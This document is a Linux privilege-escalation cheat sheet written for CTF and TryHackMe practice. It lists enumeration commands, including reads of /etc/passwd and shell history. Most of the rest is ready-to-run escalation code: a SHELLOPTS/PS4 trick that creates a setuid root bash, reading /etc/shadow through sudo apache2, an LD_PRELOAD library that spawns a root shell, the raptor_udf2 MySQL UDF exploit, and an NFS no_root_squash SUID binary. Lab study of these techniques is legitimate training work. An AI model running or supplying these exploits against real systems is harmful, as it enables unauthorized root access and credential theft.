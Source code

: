 ```yaml
---
title: Linux Privilege Escalation
time: 2025-01-27 20:01:22
categories: [CTF, Command References]
tags: [privilege-escalation, linux, ctf, suid, sudo, ldpreload]
---
```


Privilege Escalation is searching for ways to run commands that require elevated access permissions, Eg. reading /etc/shadow file.

## Information Gathering

Once you have access to a remote machine, here is the list of different information to gather to explore ways to escalate privilege:

1. `hostname` - machine name
1. `uname -a` - Operating System information
1. `/proc/version` - only for linux to get kernel details
1. `/etc/issue` - system information
1. `/etc/os-release` - OS information
1. `ps auxjf` - list of running process
1. `env` - environment variables
1. `sudo -l` - check sudo permission
1. `ls` - Accessible files
1. `id` - user information
1. `/etc/passwd` - other available users
1. `history` - interesting commands ran in previous sessions by user
1. `ifconfig` - network info
1. `ip route` - available network routes
1. `netstat` - display network communications

## Automated Enumeration

Different tools to check available escalation options:

- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)
- [More list of escalation techniques](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#summary)

---

## Escalation Techniques

### kernel exploits

- Check the kernel version of the system: `uname -a`, `cat /proc/version`, `cat /etc/issue`
- Search for any exploit published for that version on [exploit-db](https://www.exploit-db.com/)
- Here is one script to find kernel exploits: [Linux exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh)
- Trick the kernel into running our payload in kernel mode
- Exploit
- Eg. [DirtoCoW](https://dirtycow.ninja/)

Note: Kernel exploit can be irreversable to the system, so run cautiously for the exact version only.

———

### Sudo permissions

- Check sudo permissions: `sudo -l`
- Collated list of ways to use different `sudo` permissions for privilege escalation [GTFObins](https://gtfobins.github.io/)
- Search on the above site and see if any of the binaries can be exploited for privilege escalation
- Check if any of the environment variable retained by `env_keep` can be used for escalation. Eg. `LD_PRELOAD` can be used to override functions from shared library
- exploit
- Eg.

```sh
# Abuse shell debugging feature
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2


# Abuse sudo permission on apache
# Shows first line of shadow file in the error
sudo apache2 -f /etc/shadow

```

- Example of abusing environment variable `LD_PRELOAD` or `LD_LIBRARY_PATH`
- This link [Cheat Inject Feature](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) provides detailed explanation on using above variables to modify the binary behavior.

- Consider this C program

```c
// preload.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() { 
  unsetenv("LD_PRELOAD");
  setgid(0); 
  setuid(0); 
  system("/bin/bash"); 
}

```

- Above program can be injected to any binary if we can modify `LD_PRELOAD` or `LD_LIBRARY_PATH` env variable.

```sh
# use LD_PRELOAD:
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
sudo LD_PRELOAD=/tmp/preload.so <program-name-here>

# use LD_LIBRARY_PATH:
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp <program-name-here>
```

---

### SUID binaries

- find SUID binaries: `find / -type f -perm -04000 -ls 2>/dev/null`, `find / -type f -perm -u+s -exec ls -l {} \; 2> /dev/null`
- find SGID binaries: `find / -type f -perm -02000 -ls 2>/dev/null`, `find / -type f -perm -g+s -exec ls -l {} \; 2> /dev/null`
- find both: `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
- Use below command to create a password hash if we can edit `passwd` or `shadow` file, Eg. using SUID `cp` or `mv` command

```sh
# create unix password hash:
openssl passwd -1 -salt [salt] [password]
openssl passwd newpasswordhere
mkpasswd -m sha-512 newpasswordhere

```

---

### Cron jobs

- Global cron config is stored in `/etc/crontab`
- see if any script from the job is world writable.

---

### PATH variable

- Check if any binary is using a relative path which can be influenced by the PATH variable: `echo $PATH`

---

### File capabilities:

- find capabilities of all the files under root directory: `getcap -r / 2> /dev/null`
- These capabilities enables extra permissions which are not part of `sudo` permission list, but same approach of `sudo` applies here.
- check `man capabilities` for list of capabilities

---

### Different services

#### mysql escalation

- create payload

```sh
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

- exploit

```sh
mysql -u root

# inside mysql shell
use mysql; 
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

# exploit
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');


```

#### NFS

- NFS (Network File Sharing) configuration is kept in the /etc/exports file.
- If any directory is shared with `no_root_squash` flag, then it can be exploited
- Consider this c code

```c
// nfs.c

#include <stdlib.h>
#include <unistd.h>

int main()
{
  setgid(0);
  setuid (0);
  system("/bin/bash");
  return 0;
}
```

- Generate the executable and copy it to the mounted share

```sh
# Set SUID as root owner
gcc -static nfs.c -o nfs
chmod +s nfs

# Enumerate mountable shares:
showmount -e 10.0.2.12

# Mount the shared directory

# Craete mount point locally
mkdir /tmp/shmount

# Mount '/backups/' directory from the target machine to local system
mount -o rw 10.0.2.12:/backups /tmp/shmount

cp ./nfs /tmp/shmount

```

- Run the `./nfs` on the target machine

---

## References

- [Linux Privilege Escalation - TryHackMe](https://tryhackme.com/room/linprivesc)
- [Common Escalation Techniques - TryHackMe](https://tryhackme.com/room/linuxprivesc)
